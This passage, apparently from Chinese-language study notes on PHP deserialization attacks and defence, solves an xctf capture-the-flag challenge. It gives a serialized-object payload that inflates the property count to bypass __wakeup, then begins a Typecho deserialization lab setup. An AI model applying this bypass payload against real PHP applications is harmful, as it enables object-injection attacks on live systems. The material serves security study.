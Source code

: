 先序列化得到结果，然后调整序列化中的数量大于对象属性个数，来绕过wakeup函数。

```php
payload:
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

![image-20240820201752115](反序列化渗透与防御/image-20240820201752115.png)	

获取答案提交即可通关。

![image-20240820202023231](反序列化渗透与防御/image-20240820202023231.png)	

## typecho反序列化漏洞

从资料中把该目录移动到phpstudy根目录，并创建网站。
